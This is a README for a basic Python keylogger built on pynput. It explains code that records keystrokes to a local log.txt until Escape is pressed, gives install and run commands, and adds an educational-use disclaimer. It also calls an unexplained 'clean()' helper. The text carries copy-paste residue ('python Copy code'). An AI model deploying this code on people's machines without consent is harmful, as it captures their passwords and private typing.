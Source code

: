 ## Keylogger Project Readme
Overview
This Python script serves as a basic keylogger, capturing key presses and saving them to a log file named 'log.txt'. The code utilizes the pynput library to monitor and record keyboard input. Additionally, there is a function clean() from a module KLcleaner (presumably related to cleaning up after the keylogging process).


## Dependencies
pynput: This library is used for monitoring keyboard input.


## How it Works
The script imports necessary modules, including pynput.keyboard for keyboard monitoring, and the custom KLcleaner module for cleaning.
python

''' Copy code
from pynput.keyboard import Key, Listener
from KLcleaner import clean 
'''

The script initializes an empty list called keys to store the pressed keys.
python
Copy code
keys = []
Two functions, on_press and on_release, are defined to handle key events. The on_press function appends each pressed key to the keys list, and the on_release function checks if the pressed key is the escape key (Key.esc). If the escape key is pressed, the script writes the collected keys to the 'log.txt' file and terminates the keylogging process.
python
Copy code
def on_press(key):
    keys.append(key)

def on_release(key):
    if key == Key.esc:
        with open('log.txt', 'w') as file:
            file.writelines(str(keys))
        return False
The script initializes a Listener object with the defined on_press and on_release functions, and starts monitoring the keyboard.
python
Copy code
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
After the listener is terminated (when the escape key is pressed), the clean() function is called, presumably to perform cleanup operations.
python
Copy code
clean()
Important Notes
This script has the potential to be misused for unauthorized access to sensitive information. Always use such scripts responsibly and only on systems for which you have explicit permission.
Keyloggers are often associated with malicious activities, so be cautious when working on or using such scripts.
Usage
Install the required dependencies:
bash
Copy code
pip install pynput
Run the script:
bash
Copy code
python keylogger.py
Press the escape key to stop the keylogging process.
Disclaimer
This script is intended for educational purposes only. Unauthorized use of keyloggers or any form of malicious activity is illegal and unethical. The author is not responsible for any misuse of this code.






